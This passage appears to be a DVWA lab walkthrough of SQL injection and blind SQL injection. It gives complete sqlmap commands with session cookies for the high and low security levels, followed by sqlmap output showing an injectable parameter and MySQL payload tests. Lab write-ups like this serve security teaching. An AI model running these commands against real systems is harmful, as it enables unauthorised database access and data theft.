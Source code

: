 Now every time we want to perform a query, a pop-up window appears to enter the parameter, this window has the following URL `http://172.17.0.2/vulnerabilities/sqli/session-input.php` associated to it.

As it was evident the tool is totally prepared for this, the command to execute is the following one: `sqlmap -u "http://172.17.0.2/vulnerabilities/sqli/session-input.php" --cookie "PHPSESSID=albq3dhv4vof90l6l89q8qa1s0;security=high" --data="id=1&Submit&Submit" --second-url "http://172.17.0.2/vulnerabilities/sqli" --batch -dbs`

\*The output is not attached because it is exactly the same as the previous one.
### BlindSQLi

This attack vector is **exactly** the same as the previous one except for one small thing, the errors are not shown explicitly, this does not hinder the launching of the attack, however it does slow down the execution of the attack considerably.
#### Easy

The command to be used is exactly the same as in the previous attack vector (at the corresponding difficulty).

`sqlmap -u "http://172.17.0.2/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=albq3dhv4vof90l6l89q8qa1s0;security=low" --batch -dbs`

The output obtained:

```txt
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:38:31 /2023-12-02/

[13:38:31] [INFO] testing connection to the target URL
[13:38:31] [INFO] checking if the target is protected by some kind of WAF/IPS
[13:38:31] [INFO] testing if the target URL content is stable
[13:38:32] [INFO] target URL content is stable
[13:38:32] [INFO] testing if GET parameter 'id' is dynamic
[13:38:32] [WARNING] GET parameter 'id' does not appear to be dynamic
[13:38:32] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[13:38:32] [INFO] testing for SQL injection on GET parameter 'id'
[13:38:32] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:38:32] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[13:38:32] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[13:38:32] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:38:32] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[13:38:32] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:38:32] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:38:32] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[13:38:32] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[13:38:32] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
```